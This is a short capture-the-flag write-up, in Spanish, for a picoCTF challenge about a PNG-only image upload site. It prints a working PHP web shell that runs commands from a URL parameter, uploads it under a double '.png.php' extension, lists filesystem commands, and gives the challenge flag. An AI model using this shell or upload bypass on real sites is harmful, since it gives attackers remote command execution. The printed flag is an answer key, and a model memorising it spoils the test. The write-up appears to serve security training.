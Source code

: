 #### Description
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.


#### Hints
1. none


#### Solucion
1. Ingresamos al sitio web
2. Inspeccionamos y analizamos código
3. Ingresamos al navegador y colocamos "php webshell" --> https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985 y copiamos el codigo que se encuentra ahi
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
guardamos el archivo como "untitled.png.php" y lo subimos al sitio web que nos da el reto.

4. Cargamos el archivo
5. En la barra donde se encuentra el enlace escribimos "http://atlas.picoctf.net:62972/uploads/untitled.png.php"
6. ls -al /
7. ls -al /root
8.  ls -al /var/www/htm
9. cat /var/www/html/MFRDAZLDMUYDG.txt
10. Nos da la bandera --> picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}
